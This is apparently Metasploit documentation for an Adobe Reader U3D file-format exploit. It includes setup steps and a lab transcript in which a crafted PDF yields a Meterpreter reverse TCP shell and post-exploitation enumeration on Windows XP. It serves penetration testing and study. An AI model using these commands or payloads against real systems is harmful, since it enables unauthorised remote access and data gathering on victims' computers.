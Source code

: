 ## Vulnerable Application

This module exploits a vulnerability in the U3D handling within versions 9.x through 9.4.6 and 10 through to 10.1.1 of Adobe Reader. The vulnerability is due to the use of uninitialized memory. Arbitrary code execution is achieved by embedding specially crafted U3D data into a PDF document. A heap spray via JavaScript is used in order to ensure that the memory used by the invalid pointer issue is controlled.

Link to vulnerable software (OldVersion)[http://www.oldversion.com/windows/download/acrobat-reader-9-4-0]

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: `use exploit/windows/fileformat/adobe_reader_u3d`
   4. Do: `set payload [windows/meterpreter/reverse_tcp]`
   5. Do: `set LHOST [IP]`
   6. Do: `exploit`
   7. Do: `use [exploit/multi/handler]`
   8. Do: `set LHOST [IP]`
   9. Do: `exploit`
   10. Do: `Open PDF on target machine with vulnerable software`

## Scenarios

### A run on Adobe Reader 9.4.0 and Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_reader_u3d
  msf exploit(windows/fileformat/adobe_reader_u3d) > set FILENAME myFile.pdf
    FILENAME => myFile.pdf
  msf exploit(windows/fileformat/adobe_reader_u3d) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(windows/fileformat/adobe_reader_u3d) > exploit

    [*] Creating 'myFile.pdf' file...
    [+] myFile.pdf stored at /root/.msf4/local/myFile.pdf
  msf exploit(windows/fileformat/adobe_reader_u3d) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf5 exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.5:1103) at 2019-12-05 18:01:07 -0700
  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

    Installed Applications
    ======================

    Name                Version
    ----                -------
    Adobe Reader 9.4.0  9.4.0


    [+] Results stored in: /root/.msf4/loot/20191205180436_default_192.168.1.5_host.application_540854.txt
  ```
